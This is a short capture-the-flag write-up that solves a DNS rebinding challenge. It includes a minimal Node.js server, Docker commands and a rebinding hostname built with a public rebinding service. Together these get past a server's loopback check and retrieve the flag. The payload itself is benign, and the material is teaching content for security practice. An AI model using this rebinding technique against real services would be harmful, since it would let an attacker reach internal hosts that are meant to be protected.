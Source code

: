 # Responsive

* `docker build -t exploit .`
* `docker run --rm -p 80:80 exploit`

This challenge uses a web browser (Firefox for iOS) to access our website. This is essentially a baby DNS rebinding challenge. Our server needs RESDEV in the title, so let's just set up a simple JS server with node.

```Javascript
const url = require('url')
const http = require('http')

exploit_template = `
<html>
<title>RESDEV</title>
<head>Example</head>
<body>
    Hello world!
</body>
</html>`

const handler = (req, res) => {
    console.log("GET request");
    res.statusCode = 200;
    res.end(exploit_template);
}

const server = http.createServer(handler).listen(80, '0.0.0.0', (err) => {
    if (err) throw err
    console.log(`Attack server is listening on 80`)
})
```

We can then use Tavis Ormandy's website for testing DNS rebinding at Project Zero.

https://lock.cmpxchg8b.com/rebinder.html

Plugging in our server's IP address we get a URL like the one below:

```
http://7f000001.0a004004.rbndr.us/
```

If we submit this URL multiple times, one of those times the server will first resolve our URL to 172.17.0.2 which it verifies is not a loopback address. The server then opens a browser which asks what IP the URL is at. This second DNS request will resolve to 127.0.0.1, bypassing the initial check and returning a screenshot of the flag.

